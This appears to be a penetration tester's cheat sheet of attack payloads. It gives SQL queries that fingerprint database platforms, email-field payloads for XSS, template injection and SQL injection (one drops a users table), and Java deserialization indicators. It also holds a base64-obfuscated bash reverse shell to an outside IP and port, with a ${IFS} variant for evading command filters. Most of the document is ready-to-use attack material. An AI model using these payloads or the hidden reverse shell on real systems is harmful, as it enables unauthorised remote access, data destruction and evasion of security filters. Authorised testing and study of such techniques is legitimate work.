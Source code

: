 ### Detect SQL Database Platform

> credits to @bughuntar

```sql
SELECT @@version                                           # MySQL/MSSQL
SELECT version()                                           # Postgresql
SELECT banner FROM v$version WHERE banner LIKE ‘Oracle%’;  # Oracle
```

### Email Field Injection Payloads
```
# Cross-Site Scripting (XSS)
test+(<script>alert(1)</script>)@example.com
test@example(<script>alert(1)</script>).com
"<script>alert(1)</script>"@example.com

# Template Injection
"<%= 7 * 7 %>"@example.com
test+(${{7*7}})@example.com

# SQLi
"' OR 1=1 -- '"@example.com
"mail'); DROP TABLE users;--"@example.com

# parameter pollution
victim&email=attacker@example.com
```

### Linux Pipe Filter Bypass
```bash
bash < <(base64 -d < <(echo YmFzaCAtaSAgPiYgIC9kZXYvdGNwLzEwLjEwLjE0LjQ1LzQ0NDQgICAwPiYx))
# Example with space and pipe filter
bash${IFS}<${IFS}<(base64${IFS}-d${IFS}<${IFS}<(echo${IFS}YmFzaCAtaSAgPiYgIC9kZXYvdGNwLzEwLjEwLjE0LjQ1LzQ0NDQgICAwPiYx))
```

### Signs of Java Serialization
- identification of base64 encoded string starting with `rO0` or hex encoded string starting with `ac ed 00`.
- with openbox test, look for the following:
  - `XMLdecoder`
  - `XStream.fromXML()`
  - `ObjectInputStream.readObject()`
  - `readObject`, `readObjectNoData`, `readResolve` or `readExternal`
  - `ObjectInputStream.readUnshared`
  - Any class that implements the `Serializable` interface.

### Burp Suite's XSRF PoC
- the `history.pushState`, from my understanding, is pretty much adding an entry to the history that points the vulnerable sites root (`/`) so that the victim wouldn't see an error or retry to submit the same request when pressing the back button!
